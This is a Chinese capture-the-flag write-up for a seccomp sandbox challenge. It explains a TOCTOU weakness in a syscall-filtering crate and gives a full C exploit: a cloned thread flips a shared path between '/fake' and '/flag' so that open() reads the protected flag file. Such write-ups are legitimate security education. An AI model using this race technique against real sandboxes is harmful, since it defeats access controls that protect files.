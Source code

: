 ## 都是 seccomp 的错

题目是由 ~~[KDE程序](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/behind-the-scenes/files/18.png) 之一的~~出题人的 [crate](https://crates.io/crates/greenhook) 修改的。
crate 描述里说了可能被 TOCTOU (Time of check to time of use) 攻击，那么创建一个线程创造 race 即可。
另外比较坑的是 syscall 限制的比较严，甚至 pthread 所使用的 clone3 都不让用。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <string.h>
#include <signal.h>
#include <fcntl.h>

static char file[100];

static int child_func() {
  for (int i = 0; i < 1000000; ++i) {
    strcpy(file, "/fake");
    strcpy(file, "/flag");
  }
  return 0;
}

int main(int argc, char ** argv) {
  const int STACK_SIZE = 65536;
  char *stack = malloc(STACK_SIZE);
  if (!stack) {
    perror("malloc");
    exit(1);
  }

  strcpy(file, "/fake");

  char buffer[100];
  memset(buffer, 0, 100);

  if (clone(child_func, stack + STACK_SIZE, CLONE_VM | SIGCHLD, NULL) == -1) {
    perror("clone");
    exit(1);
  }

  for (int i = 0; i < 1000; ++i) {
    int fd = open(file, O_RDONLY);
    if (fd == -1) {
      perror("open");
      continue;
    }
    read(fd, &buffer, 100);
    printf("read: %s", buffer);
  }
  return 0;
}
```
